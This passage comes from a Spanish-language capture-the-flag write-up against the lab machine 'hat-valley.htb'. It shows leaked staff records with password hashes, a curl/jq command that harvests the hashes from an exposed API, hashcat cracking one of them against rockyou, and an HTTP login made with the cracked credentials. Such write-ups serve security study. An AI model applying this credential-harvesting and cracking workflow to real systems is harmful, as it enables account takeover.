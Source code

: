 ```null
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
    "fullname": "Jackson Lightheart",
    "role": "Salesperson",
    "phone": "0419444111"
  },
  {
    "user_id": 4,
    "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
    "fullname": "Bean Hill",
    "role": "System Administrator",
    "phone": "0432339177"
  }
]
```

```null
curl -s -X GET http://hat-valley.htb/api/staff-details | jq '.[] | "\(.username):\(.password)"' -r > hashes
```

Los crackeo con ```hashcat```.

```null
hashcat -m 1400 hashes /usr/share/wordlists/rockyou.txt --show
e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123
```

Al cargar ```/staff-details```, se está setteando una cookie ```token=guest``` si lo hago desde el navegador

```null
GET /api/staff-details HTTP/1.1
Host: hat-valley.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=guest
Connection: close
```

Intento iniciar sesión. Recibo un JWT

```null
POST /api/login HTTP/1.1
Host: hat-valley.htb
Content-Length: 54
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://hat-valley.htb
Referer: http://hat-valley.htb/hr
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=guest
Connection: close

{"username":"christopher.jones","password":"chris123"}
```

